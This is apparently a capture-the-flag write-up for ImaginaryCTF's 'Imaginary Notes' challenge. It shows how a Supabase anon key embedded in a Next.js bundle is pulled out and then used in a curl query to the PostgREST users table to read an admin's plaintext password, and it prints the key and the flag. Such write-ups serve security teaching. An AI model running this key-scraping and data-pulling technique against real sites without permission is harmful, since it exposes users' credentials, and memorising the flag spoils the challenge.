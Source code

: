 Imaginary Notes Solution
Challenge
We’re given a note-taking app running on Supabase:
http://imaginary-notes.chal.imaginaryctf.org
The description hints:
•	The flag is the password of the admin account.
•	The database table is called users.
•	The Supabase anonymous key is hidden somewhere in the site.
________________________________________
Recon
Opening the site shows a basic Next.js login/signup page. Checking the page source and loaded JS chunks in DevTools → Sources or Network, we spot this line:
a(5647).UU)("https://dpyxnwiuwzahkxuxrojp.supabase.co",
"eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzdXBhYmFzZSIsInJlZiI6ImRweXhud2l1d3phaGt4dXhyb2pwIiwicm9sZSI6ImFub24iLCJpYXQiOjE3NTE3NjA1MDcsImV4cCI6MjA2NzMzNjUwN30.C3-ninSkfw0RF3ZHJd25MpncuBdEVUmWpMLZgPZ-rqI");
This exposes both:
•	Supabase URL: https://dpyxnwiuwzahkxuxrojp.supabase.co
•	Anon key: the long JWT.
________________________________________
Exploitation
Supabase exposes its database via a PostgREST API at /rest/v1/<table>.
With the anon key, we can query directly:
curl -s 'https://dpyxnwiuwzahkxuxrojp.supabase.co/rest/v1/users?select=*&username=eq.admin' \
  -H 'apikey: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...' \
  -H 'Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9...'
________________________________________
Result
The response reveals the admin row, including the password:
[
  {
    "id": "5df6d541-c05e-4630-a862-8c23ec2b5fa9",
    "username": "admin",
    "password": "ictf{why_d1d_1_g1v3_u_my_@p1_k3y???}"
  }
]
________________________________________
Flag
ictf{why_d1d_1_g1v3_u_my_@p1_k3y???}
